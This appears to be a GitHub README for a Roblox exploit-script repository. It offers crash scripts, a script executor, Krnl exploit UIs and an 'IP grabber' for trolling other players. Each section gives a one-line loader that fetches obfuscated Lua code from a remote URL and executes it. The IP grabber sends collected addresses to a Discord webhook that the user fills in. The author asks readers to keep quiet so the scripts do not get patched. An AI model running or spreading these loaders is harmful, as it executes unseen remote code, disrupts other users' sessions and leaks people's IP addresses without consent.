 # About
I'll be posting my scripts and if I put someone elses into this repository that means it's either my friends script or a revamp of their script and I'll be adding the information into the readme.

The scripts will be put into sections. The scripts I put into here are meant for pranking in irl and trolling.
Don't go around talking about this before they get patched 💀 No one want's scripts to get patched ;)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Crash Script [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)

# Crash Script UI (FIRST ONE) [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

![banui](https://github.com/wtfplayer/redemption/assets/136761546/925472f3-942f-4eb3-983a-42e412d383ca)

# Crash Script v2 [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)
In the 2nd version the script will execute after 10 seconds

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua"))()
```

[SOURCE OBFUSCATED V2](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)


![nerds](https://github.com/wtfplayer/redemption/assets/136761546/852bf971-067c-4917-81b8-b05191a5ad1e)

# Position Finder [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts (If you don't know, the script I'm showing you is the revamp.)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

# Script Executor [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

![script (2)](https://github.com/wtfplayer/redemption/assets/136761546/f18a5942-9f39-4ab2-beec-a92bb7aefb12)

# Ip Grabber [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)
**Make sure to put a webhook to replace "url"** I didn't because I cant show my discord.

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)

![ipgrab](https://github.com/wtfplayer/redemption/assets/136761546/ba8c6f22-5a4e-4521-b86a-46561bb7de92)

# Krnl Ui [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

![2](https://github.com/wtfplayer/redemption/assets/136761546/831a5603-5ceb-4858-93d9-2516ee18dab5)


# Krnl No Ui Execute [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

![2](https://github.com/wtfplayer/redemption/assets/136761546/923dfda2-d61c-4773-9866-e63b98e0fcb3)


**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
